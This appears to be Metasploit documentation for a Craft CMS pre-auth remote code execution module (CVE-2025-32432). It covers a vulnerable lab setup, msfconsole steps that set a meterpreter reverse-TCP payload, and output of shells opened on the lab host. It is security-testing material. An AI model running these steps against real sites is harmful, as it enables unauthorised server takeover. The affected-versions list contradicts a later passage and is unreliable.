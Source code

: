 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Craft CMS.

The vulnerability lies in improper handling of image transformations, which can be exploited to
inject and execute arbitrary PHP code on the server via crafted HTTP requests.

---

### Affected Versions

- **3.x series**: `>= 3.9.15`
- **4.x series**: `>= 4.14.15`
- **5.x series**: `>= 5.6.17`

---

### Setting Up a Vulnerable Lab

To test this exploit, follow these steps to set up a vulnerable Craft CMS environment.

#### Docker Setup

Install a specific vulnerable version of Craft CMS:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
    # Configure DDEV (https://ddev.com/) project for Craft CMS \
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="postgres:15" \
  --nodejs-version="20" && \
    # Create the DDEV project
ddev start -y && \
    # Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
    # Install a vulnerable Craft CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
    # Set the security key for Craft CMS
ddev craft setup/security-key && \
    # Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
ddev restart && \
    # Launch the project
echo 'Setup complete. Launching the project.' && \
ddev launch
```

---

## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.


## Options

The module has the following option:

- **ASSET_ID**: This option is required for older versions of Craft CMS, particularly in the 3.x series.
    It specifies the asset ID for the Craft CMS instance. For 3.x versions, this ID must be set correctly to exploit the vulnerability.

For example, if you are targeting a Craft CMS version from the `>= 3.0.0`, `< 3.9.14`, make sure to specify the correct `ASSET_ID`.
This is necessary for successful exploitation when dealing with these versions.

## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```

7. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

##### For `ARCH_PHP`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ASSET_ID   60               yes       Existing asset ID
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory

View the full module info with the info, or info -d command.
```

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. License text detected
[*] Making initial request to push payload and get a CSRF token..
[*] Triggering code via assets/generate-transform
[*] Sending stage (40004 bytes) to 172.24.0.2
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.24.0.2:42740) at 2025-04-26 05:00:08 +0200

meterpreter > sysinfo
Computer    : exploit-craft-web
OS          : Linux exploit-craft-web 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

##### For `ARCH_CMD`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set target 1
target => 1
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. License text detected
[*] Making initial request to push payload and get a CSRF token..
[*] Triggering code via assets/generate-transform
[*] Sending stage (3045380 bytes) to 172.24.0.2
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.24.0.2:47562) at 2025-04-26 05:02:02 +0200

meterpreter > sysinfo
Computer     : 172.24.0.2
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
